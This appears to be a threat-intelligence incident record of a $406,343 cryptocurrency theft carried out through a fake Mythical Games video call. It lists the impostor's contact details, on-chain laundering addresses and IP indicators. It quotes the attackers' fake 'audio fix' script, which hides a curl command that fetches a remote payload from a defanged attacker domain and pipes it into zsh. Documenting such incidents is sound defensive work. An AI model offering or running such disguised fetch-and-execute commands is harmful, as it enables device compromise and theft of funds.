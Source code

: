 # A6 via Fake Mythical Games

Date:: February 28th, 2025

Time:: 12:25 UTC – 01:58 UTC, 23:09 UTC

Amount Stolen:: $406,343

Tags:: 🔑

---


## Details

Had a video call with the exploiters

Was an issue with the sound

Victim ran the suggested fix script provided by the exploiters.

On call were 3 males. 2 didnt speak, one did. Seemed like live interaction (?)

- “John Linden” - @mythicaljohn - 7440942015

- https://calendly.com/john-mythicalgames/30min?month=2025-03

- meet[.]mythicalgames[.]foundation/zoom/join?mn=65185420&pwd=r47BVC

```
system_profiler SPAudioData
softwareupdate --evaluate-products --products audio --agree-to-license
curl -A audio -s https://api.zoom-sdk[.]us/update/drivers/65185420 | zsh
system_profiler SPSoundCardData
softwareupdate --evaluate-products --products soundcard
system_profiler SPSpeechData
softwareupdate --evaluate-products --products speech --agree-to-license
```

- Attributed in [MSMT: The DPRK’s Violation and Evasion of UN Sanctions through Cyber and Information Technology Worker Activities]./pdfs/2025-10-22_MSMT-Report.pdf)



## Onchain

- TK3E1NWkehLoBKUWbhjUudxxjN4abYdu7T - Direct Theft

- EQAq887cEkvOMBdafawfjl8JqKIsk3DQopMT8q79D7r - Direct Theft

- 0x37ef7efda71203f17f26730611bd8eef11f5f8af - Primary Theft

- 0xd5944357a065245064a8b8dfc58e789a90dce0f6 - Consolidation

- TGoZ4yeuG13ysYYZEX334PvnqyWDnDJ2JT - Source of Gas Funds (2025-02-28)

- TAJFh3AqQKm6bvUYejJrH3k8htwTbunn5g - Source of Gas Funds (2025-02-28)

- 0x73565a7488cb4853c17923d88da3ccb81fd9aa8e - eXch Depo ($192k, 2025-03-14)

- 0x0c52194fd9148de91e96a8e123ab90f1482c6449 - eXch Depo ($218k, 2025-03-14)

- bc1q9knpsljy40j5jmphcyl7nzvhjvch5gp6kzhwnn - eXch Withdrawal ($191k)

- bc1qv4qm5jy2qy30ggjlygkd2665t90dcwuyga9hxe - eXch Withdrawal ($218k)

- bc1qfe4h6ghdg0fj37ftmsw437mfc4e74v5pvhfx8u - Laundry (Apr 10 2025)

- Used Defiway, ChangeNOW, FixedFloat, Symbiosis, OKX Dex, Bridgers from TRON and TON -> ETH



## Indicators

- 2025-02-28 - 85.203.44.XX

- 2025-03-03 - 103.125.146.XX

- 2025-03-03 - 103.163.220.XX

- 2025-03-03 - 83.234.227.XX (Leaked TTK)

- 2025-03-03 - 212.30.36.XX
